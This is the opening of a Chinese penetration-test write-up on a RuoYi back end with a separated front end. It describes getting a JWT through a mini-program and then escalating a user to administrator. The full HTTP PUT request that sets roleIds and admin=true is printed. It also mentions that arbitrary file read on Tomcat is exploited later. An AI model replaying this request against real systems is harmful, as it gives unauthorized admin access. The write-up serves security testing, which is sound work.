 # 若依前后端分离下的渗透测试

原创 f0ng [only security](javascript:void(0);) *2024年02月01日 22:25* *江苏*



前阵子做了个若依后端接口，没有前端页面，之前遇到过很多次，但是都一笔带过没有怎么仔细地看，这次因为是单个系统，所以不得不仔细看一遍，这里做个记录，方便以后进行测试

# **0x00 概述**

对若依后端的测试，通过搭建前端结合后端进行测试，并对Tomcat部署的若依系统进行任意文件读取的深入利用，比较琐碎，对测试记录进行一个分享

# **0x01 背景**

目标打开就是这样，后来经过询问，发现是通过小程序登录，调用的api是这个域名下的

![图片](assets/前后端分离渗透测试思路/640.webp)

# **0x02 通过小程序获得漏洞入场券**

通过对小程序的渗透，得到了一个token，也就是认证用的jwt，通过对用户的操作，修改了用户的权限，提升到了管理员权限

【这里数据包是内网的，因为在本地搭建了前端页面，导致请求的host都是本地的环境，实际上后端请求的都是目标站点的，后面会提到】

```
PUT /dev-api/system/user HTTP/1.1
Host: 192.168.0.105:1024
Accept-Encoding: gzip, deflate
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json;charset=utf-8
Authorization: Bearer xxxx
Origin: http://192.168.0.105:1024
Sec-GPC: 1
Referer: http://192.168.0.105:1024/system/user
Cookie: Admin-Token=xxxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Content-Length: 760

{"createBy":"admin","createTime":"2024-01-04 11:32:44","updateBy":null,"updateTime":null,"remark":null,"userId":101,"deptId":null,"userName":"test141414","nickName":"test141414","email":"123456@qq.com","phonenumber":"18812341234","sex":"0","avatar":"","password":"","status":"0","delFlag":"0","loginIp":"''''","loginDate":"2024-01-04T11:35:24.000+08:00","dept":null,"roles":[],"roleIds":[1],"postIds":[],"roleId":null,"admin":true}
```
